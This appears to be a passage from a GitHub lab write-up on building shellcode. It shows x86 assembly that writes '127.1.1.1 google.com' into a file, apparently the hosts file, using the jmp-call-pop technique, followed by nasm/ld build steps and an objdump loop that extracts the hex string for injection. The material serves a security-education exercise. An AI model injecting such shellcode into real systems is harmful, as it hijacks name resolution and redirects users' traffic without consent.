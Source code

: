 ```assembly
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

**Compile the program**

To compile the program, run the following script:

```bash
nasm -g -f elf shellcode.asm
```

A new file `shellcode.o` is created.

And to link the the code to create executable file:

```bash
ld -m elf_i386 -o shellcode shellcode.o 
```

**Result**

![shellcode o file](https://github.com/user-attachments/assets/ce6f7c1e-fe5a-4fb1-861b-7cf7fa2cae6d)

A new file `shellcode` is created.

---

### 1.2. Generate hex string

To inject the above assembly code snippet, we need to generate the hex values so that we can use those values as input.

**Print string onto terminal**

Run the following script to generate the hex string of shellcode and print it onto terminal.

```bash
for i in $(objdump -d sh |grep "^ "|cut -f2); do echo -n '\x'$i; done; echo
```
